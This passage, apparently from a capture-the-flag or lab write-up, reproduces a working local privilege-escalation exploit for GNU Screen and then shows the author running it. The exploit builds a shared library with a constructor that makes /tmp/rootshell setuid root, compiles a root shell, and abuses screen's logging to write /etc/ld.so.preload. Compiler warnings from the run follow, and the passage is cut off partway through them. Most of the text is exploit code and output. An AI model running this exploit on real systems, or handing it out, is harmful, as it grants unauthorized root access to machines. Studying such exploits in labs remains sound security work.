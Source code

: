 #include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

using nano created this script and ran

```bash
joker@ubuntu:~$ bash exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
```